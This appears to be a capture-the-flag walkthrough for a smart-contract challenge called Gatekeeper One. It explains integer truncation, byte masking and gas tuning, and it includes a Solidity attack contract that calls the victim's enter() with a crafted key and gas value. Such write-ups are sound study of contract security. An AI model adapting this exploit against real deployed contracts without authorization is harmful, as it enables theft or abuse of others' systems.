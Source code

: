# Day 13 - Gate Keeper (1)

## Datatype conversions (Gate 2)

Whenever you convert a datapoint with larger storage space into a smaller one, you will lose and corrupt your data.

![Datatype conversion](./images/type-conversion.jpg)

## Byte masking (Gate 3)

```js
bytes4 a = 0xffffffff;
bytes4 mask = 0xf0f0f0f0;
bytes4 result = a & mask ;   // 0xf0f0f0f0
```

## Solution

### Gate 1

Pass Gate 1 by simply letting your contract be the middleman

### Gate 3

Gate 3 takes in an 8 byte key, and has the following requirements:

```js
// uint32 => 4 bytes (max 0xffffffff)
// uint64 => 8 bytes (max 0xffffffffffffffff)
// uint16 => 2 bytes (max 0xffff)
require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)));
require(uint32(uint64(_gateKey)) != uint64(_gateKey));
require(uint32(uint64(_gateKey)) == uint16(tx.origin));
```

### Gate 2

to pass Gate 2’s require(`msg.gas % 8191 == 0`), you have to ensure that your remaining gas is an integer multiple of 8191, at the particular moment when `msg.gas % 8191` is executed in the call stack.

gateTwo requires some trial and error regarding how much gas you should use. The simplest way to do this is to use .call() because you can specify exactly how much gas you want to use. Once you've initiated a failed transaction, play around with the remix debugger. Essentially you want to calculate the total cost of getting to exactly the point prior to the gasleft()%8191 == 0. For me, this is 254 gas so to pass this gate, I just needed to use a gas equivalent to some multiple of 8191 + 254 e.g. 8191 \* 100 + 254 = 819354

Notice GatekeeperOne was compiled with version v0.5.0 with no optimization enabled. Update your Remix settings accordingly.

Create a function which will call enter() and allocate a specified amount of gas. You should invoke enter() with the lower level call function, which gives you more control over gas usage. Allocate some arbitrary amount of gas:

```js
contract AttackGatekeeperOne {
    address public victim;

    constructor(address _victim) public {
        victim = _victim;
    }

    // require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    // require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    // require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");


    function part3(bytes8 _gateKey) public view returns(bool) {
        // _gateKey has 16 characters
        // uint16(msg.sender) = truncating everything else but the last 4 characters of my address (733c) and converting it into uint16 returns 29500
        // for uint32 == uint16, the former needs to be left padded with 0s e.g. 00001234 == 1234 = true
        // solving uint32(uint64(_gateKey)) is trivial because it is the same as described above.
        // This function will return true for any _gateKey with the values XXXXXXXX0000733c where X can be hexidecimal character.
        return uint32(uint64(_gateKey)) == uint16(msg.sender);
    }

    function part2(bytes8 _gateKey) public pure returns(bool) {
        // This is saying that the truncated version of the _gateKey cannot match the original
        // e.g. Using 000000000000733c will fail because the return values for both are equal
        // However, as long as you can change any of the first 8 characters, this will pass.
        return uint32(uint64(_gateKey)) != uint64(_gateKey);
    }

    function part1(bytes8 _gateKey) public pure returns(bool) {
        // you can ignore the uint64 casting because it appears on both sides.
        // this is equivalent to uint32(_gateKey) == uint64(_gateKey);
        // the solution to this is the same as the solution to part3 i.e. you want a _gateKey where the last 8 digits is the same as the last 4 digits after
        // it is converted to a uint so something like 0000733c will pass.
        return uint32(uint64(_gateKey)) == uint16(uint64(_gateKey));
    }

    // So the solution to this is to use XXXXXXXX0000<insert last 4 characters of your address> where X can be any hexidecimal characters except 00000000.
    function enter(bytes8 _key) public returns(bool) {
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = victim.call{gas: 819354}(payload);
        require(success, "failed somewhere...");
    }
}
```
